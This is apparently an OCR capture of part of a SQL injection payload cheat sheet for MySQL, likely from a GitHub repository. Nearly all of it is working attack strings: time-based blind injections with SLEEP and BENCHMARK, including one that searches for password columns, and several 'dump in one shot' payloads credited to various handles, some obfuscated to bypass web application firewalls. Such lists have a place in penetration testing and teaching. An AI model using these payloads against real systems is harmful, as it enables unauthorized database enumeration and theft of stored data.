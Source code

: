 ```powershell
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

```